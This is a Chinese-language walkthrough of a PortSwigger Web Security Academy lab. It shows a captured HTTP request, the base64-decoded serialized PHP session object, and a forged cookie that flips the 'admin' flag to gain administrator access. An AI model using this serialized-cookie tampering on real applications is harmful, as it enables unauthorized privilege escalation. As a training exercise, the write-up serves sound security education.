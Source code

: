 ### 答案

先登录已知账户 wiener 获得 session ，再查看管理员页面 `/admin` ，抓包观察

```http
GET /admin HTTP/2
Host: 0a7500b4035e4eef83c2be0400f50035.web-security-academy.net
Cookie: session=Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czo1OiJhZG1pbiI7YjowO30%3d
Sec-Ch-Ua: "(Not(A:Brand";v="8", "Chromium";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.74 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
```

把 session 里的内容 base64 解码，得到一串序列化后的字符串

```
O:4:"User":2:{s:8:"username";s:6:"wiener";s:5:"admin";b:0;}
```

我们尝试修改，把 b:0 改为 b:1 ，再 base64 编码替换 session 发包

```
Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czo1OiJhZG1pbiI7YjoxO30=
```

发现直接显示了 admin 管理员的操作页面

<img src=".\图片\Snipaste_2023-08-05_12-25-09.png" alt="Snipaste_2023-08-05_12-25-09" style="zoom:80%;" />
